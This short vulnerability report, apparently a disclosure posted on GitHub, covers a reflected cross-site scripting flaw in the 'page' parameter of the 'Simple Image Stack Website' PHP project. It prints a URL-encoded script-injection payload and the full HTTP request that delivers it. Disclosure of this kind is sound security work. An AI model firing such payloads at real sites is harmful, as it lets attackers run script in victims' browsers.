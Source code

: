 # Simple Image Stack Website has XSS

vendors: https://www.sourcecodester.com/php/17029/simple-image-stack-website-using-php-and-api.html

Vulnerability File: /php-image-stack/?page=

Vulnerability location: /php-image-stack/?page=

[+] Payload:%22%3E%3Cscript%3Ealert(1)%3C/script%3E
```
GET /php-image-stack/?page=%22%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
![image](https://github.com/HuoMingZ/aoligei/assets/169756032/48d15aa8-fe47-47f5-8c83-ccccf2db4d31)




